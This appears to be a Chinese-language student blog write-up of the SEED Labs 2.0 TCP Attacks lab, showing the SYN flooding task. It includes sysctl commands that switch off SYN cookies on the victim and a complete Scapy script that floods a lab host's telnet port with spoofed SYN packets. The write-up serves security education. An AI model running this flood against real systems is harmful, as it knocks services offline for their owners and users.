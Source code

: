 ```yaml
---
layout:     post   				    
title:      SeedLab2.0 TCP Attacks				
subtitle:   
date:       2022-05-26 				
author:     慕念 						
header-img: img/seed_labs_b.png	
catalog: true 						
tags:								
    - SeedLab
---
```




![image-20220526133546461](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220526133546461.png)

## Task 1: SYN Flooding Attack

首先通过命令`sysctl net.ipv4.tcp_max_syn_backlog`查看系统中设定好的SYN队列的长度是128。（内核参数`net.ipv4.tcp_max_syn_backlog`定义了处于`SYN_RECV`的TCP最大连接数，当处于`SYN_RECV`状态的TCP连接数超过`tcp_max_syn_backlog`后，会丢弃后续的SYN报文。）

![image-20220510193519544](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220510193519544.png)

`sysctl -a | grep syncookies`命令查看`SYN Cookie`对策是否打开，显示`net.ipv4.tcp_syncookies = 1`说明打开了`SYN Cookie`：

![image-20220510194519658](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220510194519658.png)

通过命令`sysctl -w net.ipv4.tcp_syncookies=0`关闭syn cookie:

![image-20220510195135263](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220510195135263.png)



### Task 1.1: Launching the Attack Using Python

查看容器的ID`dockps`，可以看到victim的容器ID是8b3cbd69654b：

![image-20220510200018260](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220510200018260.png)

通过`docksh 8b`进入victim主机，在攻击前先通过`netstat -nat`查看目前网络状态，可以看到只有两个端口处于`LISTEN`状态：

![image-20220510201306679](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220510201306679.png)

在python代码中补全victim的ip地址和端口号：

```python
#!/bin/env python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits
ip = IP(dst="10.9.0.5") # victim ip
tcp = TCP(dport=23, flags='S')
pkt = ip/tcp

while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
    pkt[TCP].sport = getrandbits(16) # source port
    pkt[TCP].seq = getrandbits(32) # sequence number
    send(pkt, verbose = 0)
```
